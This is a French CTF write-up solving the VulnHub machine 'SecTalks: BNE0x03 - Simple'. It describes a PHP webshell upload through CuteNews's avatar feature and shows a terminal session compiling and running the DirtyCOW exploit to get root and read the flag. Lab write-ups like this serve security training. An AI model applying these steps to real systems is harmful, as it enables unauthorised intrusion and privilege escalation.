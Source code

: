 ```yaml
---
title: "Solution du CTF SecTalks: BNE0x03 - Simple de VulnHub"
tags: [CTF, VulnHub]
---
```


[SecTalks: BNE0x03 - Simple](https://vulnhub.com/entry/sectalks-bne0x03-simple,141/) est un boot2root avec plusieurs indices que les habitués des CTFs pourront tout à fait ignorer :

> 1. Get a user shell by uploading a reverse shell and executing it.
> 2. A proxy may help you to upload the file you want, rather than the file that the server expects.
> 3. There are 3 known privesc exploits that work. Some people have had trouble executing one of them unless it was over a reverse shell using a netcat listener.

```
Nmap scan report for 192.168.56.104
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Please Login / CuteNews
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

Ce début de CTF est exactement le même scénario que sur le CTF [Cute](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Cute%20de%20VulnHub.md) : on dispose d'une appli web `CuteNews` sur laquelle il est possible de s'enregistrer et déposer un shell PHP via la fonctionnalité l'upload d'avatar pour peu que notre script PHP ait un entête d'image valide pour passer les vérifications.

On obtient alors un webshell avec les droits `www-data`.

On obtient ensuite un shell interactif via l'upload et l'exécution d'un reverse-ssh.

Une recherche de vulnérabilités via `LinPEAS` remonte `DirtyCOW` comme étant la meilleure solution pour une escalade de privilèges. On s'exécute donc :

```bash
www-data@simple:/var/www/html/uploads$ gcc -o cowroot cowroot.c 
gcc: error trying to exec 'cc1': execvp: No such file or directory
www-data@simple:/var/www/html/uploads$ find / -name cc1 2> /dev/null 
/usr/lib/gcc/i686-linux-gnu/4.8/cc1
www-data@simple:/var/www/html/uploads$ export PATH=/usr/lib/gcc/i686-linux-gnu/4.8/cc1:$PATH
www-data@simple:/var/www/html/uploads$ gcc -o cowroot cowroot.c
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
         lseek(f,map,SEEK_SET);
         ^
In file included from cowroot.c:27:0:
/usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
cowroot.c: In function 'main':
cowroot.c:141:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat=]
     printf("Size of binary: %d\n", st.st_size);
     ^
/tmp/ccVwkde8.o: In function `main':
cowroot.c:(.text+0x368): undefined reference to `pthread_create'
cowroot.c:(.text+0x38b): undefined reference to `pthread_create'
cowroot.c:(.text+0x3af): undefined reference to `pthread_create'
cowroot.c:(.text+0x3c4): undefined reference to `pthread_join'
collect2: error: ld returned 1 exit status
www-data@simple:/var/www/html/uploads$ gcc -o cowroot cowroot.c -lpthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
         lseek(f,map,SEEK_SET);
         ^
In file included from cowroot.c:27:0:
/usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
cowroot.c: In function 'main':
cowroot.c:141:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat=]
     printf("Size of binary: %d\n", st.st_size);
     ^
www-data@simple:/var/www/html/uploads$ ./cowroot 
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 45420
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
root@simple:/var/www/html/uploads# id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
root@simple:/var/www/html/uploads# cd /root
root@simple:/root# ls
flag.txt
root@simple:/root# cat flag.txt
U wyn teh Interwebs!!1eleven11!!1!
Hack the planet!
```

*Publié le 3 janvier 2023*
